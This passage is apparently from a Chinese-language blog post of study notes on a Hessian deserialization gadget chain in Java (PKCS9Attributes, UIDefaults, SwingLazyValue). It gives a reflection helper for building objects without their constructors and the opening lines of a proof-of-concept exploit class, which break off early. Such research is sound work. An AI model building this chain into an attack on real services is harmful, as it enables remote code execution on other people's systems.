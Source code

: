### 继续往上面找谁调用了createValue

UIDefaults（）的父类是Hashtable，但是这样压根获取不到 key name 的value值

![image-20231123102542483](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123102542483.png)

脑子抽了，都父类了，子调父类方法呗，压根不是一个实例对象（怎么可能调用到）

![image-20231123103007884](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123103007884.png)

### 谁调用了Hashtale的get方法

控制attributes的值即可，但是看了看构造方法并没有可控，反射？？？

就是卡在了如何获得构造方法这里( 看师傅们用了反射构造器的方法)

![image-20231123103843983](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123103843983.png)

相当于先构造了一个Object的，然后反射到指定的类（🐂）

```java
   public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
```



### 最后的poc

```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import sun.reflect.ReflectionFactory;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;

public class Hessian_PKCS9Attributes_SwingLazyValue_JavaWrapper {
    public static void main(String[] args) throws Exception {
        PKCS9Attributes s = createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
```